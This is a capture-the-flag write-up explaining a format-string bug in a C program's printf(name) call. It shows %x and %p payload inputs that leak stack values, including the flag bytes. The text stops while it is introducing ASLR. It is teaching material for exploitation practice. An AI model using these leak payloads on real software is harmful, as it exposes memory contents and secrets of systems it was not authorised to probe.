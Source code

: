 As we can see the input is sanitized by using fgets, it only accept $256$ character so we cannot buffer offervlow it. But if we look more closely, at the last line of vuln function there is `printf(name);`. F in printf stands for formatting. It can format our variabel with our desired format.

For example:

```c
printf("%d %d %d %d %d", 1, 2, 3, 4, 5);
// will output: 1 2 3 4 5
```

we can also specify our desired format with `%n$...` for example:

```c
printf("%2$d %1$d %3$d %5$d %4$d", 1, 2, 3, 4, 5);
// will output : 2 1 3 5 4
```

See the difference? So how can we exploit the formatting string. if we didn't specify any formatting in printf we can exploit it by using the format string itself. wait whattt? how?

because the printf didn't specify any formatting we can use for example: `%x` to print hexadecimal number but what hexadecimal would the printf print? becuase we input %x, the printf think that it needs hexadecimal number and it will grab one from the stack itself. if we put `%x %x %x %x %x` it will grab 5 hexadecimal from the stack because we didn't give the printf function to print to.

if we run the binary it will ask for input and if we use `%p %p %p %p %p`

```code
hi, welcome to fstring!
what's your name?
%x %x %x %x %x
hello, 0x7ffc01c289e0 0x7fdebadae8c0 (nil) 0x7 (nil)
```

as you can see it will output random value from the stack. if we look carefully the readFlag function is inside the vuln function itself so the flag must be in the stack, so we just need to find where the flag is. We can use `%x` or `%p` or even `%ld`

```code
hi, welcome to fstring!
what's your name?
%p %p %p %p %p %p %p %p %p %p
hello, 0x7fff91459780 0x7fb7ed9758c0 (nil) 0x7 (nil) 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f 0x7025207025207025

run the function again 1 more time

hi, welcome to fstring!
what's your name?
%p %p %p %p %p %p %p %p %p %p
hello, 0x7ffc069220b0 0x7f9093e858c0 (nil) 0x7 (nil) 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f 0x7025207025207025
```

as you can see the first and second output is different. This happens because the aslr is active. ASLR stands for Address Space Layout Randomization or we can use `checksec` to check it
